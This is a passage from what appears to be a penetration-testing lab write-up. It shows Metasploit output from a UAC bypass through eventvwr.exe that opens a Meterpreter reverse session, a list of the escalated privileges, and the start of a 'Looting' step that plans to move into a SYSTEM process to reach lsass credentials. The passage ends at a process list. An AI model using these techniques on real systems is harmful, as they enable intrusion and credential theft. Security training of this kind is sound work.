 ```
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (177734 bytes) to 10.10.97.79
[*] Meterpreter session 2 opened (10.8.162.183:4444 -> 10.10.97.79:49256) at 2025-07-16 19:41:21 +0200 

meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

```


## Looting

Prior to further action, we need to move to a process that actually has the permissions that we need to interact with the lsass service, the service responsible for authentication within Windows. First, let's list the processes using the command `ps`. Note, we can see processes being run by NT AUTHORITY\SYSTEM as we have escalated permissions (even though our process doesn't) :

```
meterpreter > ps

Process List
============

 PID   PPID  Name            Arch  Session  User                      Path
 ---   ----  ----            ----  -------  ----                      ----
 0     0     [System Proces
             s]
 4     0     System          x64   0
 416   4     smss.exe        x64   0        NT AUTHORITY\SYSTEM       C:\Windows\System32\smss
                                                                      .exe
 500   692   svchost.exe     x64   0        NT AUTHORITY\SYSTEM       C:\Windows\System32\svch
                                                                      ost.exe
 544   536   csrss.exe       x64   0        NT AUTHORITY\SYSTEM       C:\Windows\System32\csrs
                                                                      s.exe
```